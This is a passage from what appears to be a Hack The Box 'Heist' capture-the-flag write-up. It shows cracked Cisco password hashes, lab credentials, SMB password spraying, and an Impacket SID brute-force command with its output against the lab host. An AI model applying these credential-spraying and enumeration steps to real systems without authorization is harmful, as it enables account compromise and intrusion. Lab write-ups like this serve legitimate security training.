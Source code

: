 <p>
<img width="100%" height="100%" src="{{ '/assets/htb-heist/burp.PNG' | relative_url }}">
</p>

<p>Looks like there is a guest login option. Let's pop in as guest and see what we can find.</p>

<p>
<img width="100%" height="100%" src="{{ '/assets/htb-heist/recon-issues.PNG' | relative_url }}">
</p>

<p>Oooh, an attachment? Don't mind I do!</p>

<p>
<img width="100%" height="100%" src="{{ '/assets/htb-heist/recon-attachment.PNG' | relative_url }}">
</p>

<p>Ok excellent, we're starting our credentials list. Cracking the type-5 and type-7 cisco hashes we now have a list of:</p>

{% highlight shell %}
hazard:stealth1agent
rout3r::0242114B0E143F015F5D1E161713::$uperP@ssword
admin::02375012182C1A1D751618034F36415408::Q4)sJu\Y8qz*A3?d
{% endhighlight %}

<p>The first pairing of <code>hazard/stealth1agent</code> was a guess based on the username in the issues post. I dumped all potential passwords and usernames into corresponding files and used the smb_login module to spray them for validity.</p>

<p>
<img width="100%" height="100%" src="{{ '/assets/htb-heist/recon-smbenum2.PNG' | relative_url }}">
</p>

<h1>User exploitation</h1>

<p>Unfortunately at this point Hazard was not able to log in using winrm so took a different angle and tried dumping more information with the valid credentials.</p>

{% highlight python %}
root@kali:~/Desktop/HTB/Heist# python lookupsid2.py hazard:stealth1agent@10.10.10.149
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

Brute forcing SIDs at 10.10.10.149
Trying protocol 445/SMB...
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
{% endhighlight %}
